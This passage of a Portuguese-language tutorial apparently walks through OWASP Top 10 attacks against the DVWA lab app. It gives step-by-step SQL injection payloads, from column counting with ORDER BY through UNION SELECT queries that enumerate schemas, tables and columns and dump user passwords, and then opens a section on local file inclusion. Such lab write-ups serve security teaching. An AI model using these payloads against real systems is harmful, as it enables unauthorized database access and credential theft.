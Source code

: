 ###### O Problema:
Para exfiltrar os dados utilizando union(juntando dois selects), você precisa que ambos os selects tenham o mesmo número de colunas e alguns outros detalhes como tipo de campo.

De cara, já dá pra sacar que o select ou tem duas ou três colunas exibindo. Para ter certeza, podemos utilizar o order by:

```
1' order by 2#
```

E então ir incrementando até obter um erro, assim saberemos quantas colunas são retornadas no select. Com base nisso, o vetor de ataque já se fica mais concreto pois iremos saber quantas colunas existem no select, então para obtermos o nome do banco de dados:

```
1' UNION SELECT 1,DATABASE();#
```

No select acima, selecionamos dois campos, a primeira eu chamei de 1 e a segunda eu usei DATABASE(), que vai me trazer o nome do banco de dados;

Exiltrando outras bases de dados do banco:

```
1' UNION SELECT 1,schema_name FROM information_schema.schemata;#
```

Listando as tabelas:

```
1' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE 'dvwa';#
```


Listando as colunas da tabela:

```
1' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema LIKE 'dvwa';#
```

Roubando o ovo da galinha:

```
1' UNION SELECT user,password from users;#
```

![Sqli_dvwa](https://unit1337.github.io/images/m33701/sqli_pass.png)

##### A6:2017- Security Misconfiguration
Configurações incorretas de segurança é o problema mais comum visto. Isso geralmente é resultado de configurações padrões, imcompletas, configurações ad hoc, open cloud storage, configuração errada de headers HTTP, verbose demais nas mensagens de erro com informações sensiveis.
Um exemplo disso é o LFI, que é o processo de inclusão de arquivos, que já estão presentes localmente no servidor em questão, através da exploração de processos de inclusão vulneráveis, implementados na aplicação web. Ou seja, no exemplo abaixo:
![lfi_dvwa](https://unit1337.github.io/images/m33701/lfi.png)
